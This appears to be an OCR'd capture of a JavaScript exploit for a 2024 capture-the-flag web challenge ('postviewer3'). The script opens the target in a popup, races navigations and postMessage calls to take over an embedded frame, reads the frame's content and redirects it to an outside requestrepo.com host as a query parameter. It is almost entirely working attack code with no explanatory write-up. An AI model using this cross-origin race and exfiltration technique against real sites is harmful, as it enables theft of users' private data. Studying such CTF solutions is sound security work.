 ```html
    async function calculateHash(...strings) {
      const encoder = new TextEncoder();
      const string = strings.join("");
      const hash = await crypto.subtle.digest("SHA-256", encoder.encode(string));
      return arrayToBase36(new Uint8Array(hash)).padStart(50, "0").slice(0, 50);
    }

    async function openAndWaitVictim() {
      let victim = await new Promise((resolve) => {
        let newWindow = window.open("https://postviewer3-web.2024.ctfcompetition.com/#0", "_blank");
        if (newWindow) {
          newWindow.onload = () => resolve(newWindow);
        } else {
          resolve(null); // Handle case where window could not be opened
        }
      });
      return victim;
    }

    async function doRace() {
      const TRUSTED_ORIGIN = "https://postviewer3-web.2024.ctfcompetition.com";
      const PRODUCT = "postviewer";

      let NOTE_URL = "https://postviewer3-web.2024.ctfcompetition.com/#0";
      let OVERWRITE_URL1 = "https://postviewer3-web.2024.ctfcompetition.com/#";
      let OUR_ORIGIN = "https://als0z0ha.requestrepo.com";

      let OVERWRITE_SALT = "";
      let OVERWRITE_PRODUCT = "qyn";
      let OVERWRITE_URL2 = OVERWRITE_URL1 + OVERWRITE_PRODUCT + OUR_ORIGIN + OVERWRITE_SALT;

      let sleep = (ms) => new Promise((r) => setTimeout(r, ms));
      window.flag = 0;

      let victim = window.open("https://postviewer3-web.2024.ctfcompetition.com/", "_blank", "popup");
      /* wait for load */
      await sleep(500);
      
      setInterval(()=>{
        if (victim.frames.length == 0) {
        victim.location.href = NOTE_URL;
        victim.location.href = NOTE_URL+"0";
        victim.location.href = NOTE_URL+"00";
        victim.postMessage("blob loaded", '*');
        setTimeout(()=>{
          victim.location.href = OVERWRITE_URL2;
        }, 0);
        } else {
          if (window.flag==0) {
          let victimVictim = victim.frames[0];
          fetch(victimVictim.document.getElementsByTagName("iframe")[0].src).then(r=>{return r.text()}).then(data=>{
            location="https://als0z0ha.requestrepo.com/?q="+data;
            window.flag=1;
          });
          }
        }
        //victim.postMessage(buffer, '*', [buffer.buffer]);
        //victim.location.href = OVERWRITE_URL2;
      }, 100);
    }
```